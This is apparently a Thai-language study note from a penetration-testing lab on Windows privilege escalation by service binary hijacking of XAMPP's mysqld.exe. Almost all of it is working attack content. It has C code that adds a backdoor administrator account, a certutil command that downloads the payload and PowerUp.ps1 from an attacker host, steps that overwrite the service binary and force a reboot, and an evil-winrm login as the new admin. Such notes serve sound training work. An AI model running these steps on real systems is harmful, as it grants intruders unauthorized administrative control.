 ```powershell
icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Administrators:(F)
                              NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Users:(F)

```

จากตัวอย่างจะเห็นว่า Buildin\Users: มีสิทธิ Full Access ฉะนั้นเราสามารถทำ [[Win Service Binary Hijacking]] ได้ 

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

จากนั้น ก็นำโปรแกรมไป Compire บน Kali 

```powershell
# Compile adduser.c > .exe 
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe 

# download adduser.exe
certutil.exe -urlcache -split -f http://192.168.45.241/adduser.exe adduser.exe

# Backup ไฟล์ mysqld.exe กรณีพัง 
PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe C:\xampp\mysql\bin\mysqld2.exe.bkk       
move C:\xampp\mysql\bin\mysqld.exe C:\xampp\mysql\bin\mysqld2.exe.bkk

# เขียนทับ mysqld.exe ด้วย adduser.exe 
PS C:\Users\dave> copy adduser.exe C:\xampp\mysql\bin\mysqld.exe 
copy adduser.exe C:\xampp\mysql\bin\mysqld.exe 

# Restart เพื่อให้รัน Service
PS C:\Users\dave> shutdown /r /t 0 

Get-LocalGroupMember administrators

evil-winrm -i 192.168.222.220 -u dave2 -p 'password123!'

```

[[PowerUp.ps1]]

```
locate PowerUp
/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 . 

certutil.exe -urlcache -split -f http://192.168.45.241/PowerUp.ps1 PowerUp.ps1

# จำเป็นต้องรันทุกครั้งก่อนรัน PowerUp
powershell -ep bypass
. .\PowerUp.ps1

# หลังจากติดตั้ง PowerUp เราสามารถตรวจสอบหา Service ที่สามารถแก้ไขได้และสามารถ upload adduser.exe ไปแทนได้ นั่นเอง
Get-ModifiableServiceFile 

```